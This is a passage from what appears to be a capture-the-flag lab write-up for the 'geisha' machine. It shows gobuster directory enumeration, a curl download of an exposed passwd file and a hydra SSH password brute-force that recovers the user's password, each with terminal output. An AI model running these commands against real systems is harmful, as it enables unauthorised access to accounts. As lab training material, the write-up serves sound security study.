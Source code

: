 To find our way in, started to enumerate web directories. Luckily we got the `passwd` file and `shadow` file on port `7125`.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/geisha]
└──╼ $gobuster dir -q -u http://192.168.54.82:7125/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
/shadow               (Status: 403) [Size: 154] <---forbidden
/passwd               (Status: 200) [Size: 1432] <---success
```

Though the `shadow` file gave `403(forbidden)` error, we could access `passwd` file. So, let's download `passwd` file.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/geisha]
└──╼ $curl http://192.168.54.82:7125/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash <---system user
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lsadm:x:998:1001::/:/sbin/nologin
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/geisha]
└──╼ $
```

We have a system user `geisha`. As port 22 (SSH) is open let's try brute-force attack using `hydra`

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/geisha]
└──╼ $hydra -l geisha -P /usr/share/wordlists/rockyou.txt 192.168.54.82 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-19 19:23:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.54.82:22/
[STATUS] 111.00 tries/min, 111 tries in 00:01h, 14344289 to do in 2153:48h, 16 active
[STATUS] 112.33 tries/min, 337 tries in 00:03h, 14344063 to do in 2128:12h, 16 active
[22][ssh] host: 192.168.54.82   login: geisha   password: letmein <--- valid creds
1 of 1 target successfully completed, 1 valid password found
```